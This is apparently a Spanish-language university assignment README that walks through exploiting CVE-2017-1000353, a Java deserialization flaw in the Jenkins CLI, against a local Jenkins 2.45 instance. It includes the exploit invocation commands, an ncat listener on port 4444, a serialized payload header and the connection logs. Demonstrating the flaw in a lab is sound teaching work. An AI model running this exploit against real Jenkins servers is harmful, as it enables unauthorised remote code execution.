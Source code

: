 # Seguridad informatica - UTN

## Trabajo práctico 2° Cuatrimestre 2018 - Grupo 2

## Integrantes

- Alejandro Gonzalez
- Facundo Lavagnino
- Tomás Altrui

# Exploit para CVE-2017-1000353 - Jenkins

## Herramientas necesarias

- Java JDK (Debe ser 8 o menos, https://www.oracle.com/technetwork/java/javase/downloads/jdk8-downloads-2133151.html)
- Ncat
- Python 3

## Preparación

 1. Clonar el repositorio (e ingresar en el):
 
    ```$ git clone https://github.com/AltTomas/siutn-tp-grupo-2-2018.git && cd siutn-tp-grupo-2-2018```

 2. Iniciar Jenkins:
    - Primero debemos asegurarnos que la versión de Java sea la correcta:
      ```
      $ java -version
        java version "1.8.0_144"
        Java(TM) SE Runtime Environment (build 1.8.0_144-b01)
        Java HotSpot(TM) 64-Bit Server VM (build 25.144-b01, mixed mode)
      ```
    - En caso que no, descargamos el JDK 8 del link provisto y ejecutamos:
    
      ```export JAVA_HOME=`/usr/libexec/java_home -v 1.8` ```
    
    - Luego de tener correctamente seteado el JDK de Java, ejecutamos:
    
      ```$ java -jar jenkins_2.45.war```

3. Ingresar a ```localhost:8080/cli o 127.0.0.1:8080/cli``` para asegurarse que inició correctamente (Solo ingresar la clave que pide al iniciar, no es necesario configurar plugins)

4. Iniciar una sesión de Ncat para escuchar en el puerto 4444:

    ``` Windows: ncat -v -l -p 4444```

    ``` OSX/Linux: netcat -v -l -p 4444```

## Ejecución del exploit y explicación

Para ejecutar el exploit basta con el siguiente comando:

   ```Windows: python exploit.py http://127.0.0.1:8080/cli java_serialization_data_win.bin```

   ```OSX/Linux: python exploit.py http://127.0.0.1:8080/cli java_serialization_data_mac_linux.bin```

Este script de Python inicia una sesión con el CLI de Jenkins realizando un POST al CLI en modo "download":
```
download - Starting new HTTP connection (1): 127.0.0.1:8080
download - http://127.0.0.1:8080 "POST /cli HTTP/1.1" 200 None
```

Luego realiza un "upload" con el payload que contiene como head el objeto serializado en base 64 que especifica la funcionalidad del cliente

```'<===[JENKINS REMOTING CAPACITY]===>rO0ABXNyABpodWRzb24ucmVtb3RpbmcuQ2FwYWJpbGl0eQAAAAAAAAABAgABSgAEbWFza3hwAAAAAAAAAH4='```

y el objeto de serialización de Java que contiene nuestro código a ejecutar, que en este caso es: ```ncat -v -l -p 4444```

En caso que nuestro exploit se haya ejecutado de manera satisfactoria, deberíamos ver en la consola que levantamos nuestra sesión de Ncat un mensaje de conexión:

```
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 127.0.0.1.
Ncat: Connection from 127.0.0.1:57496.
```
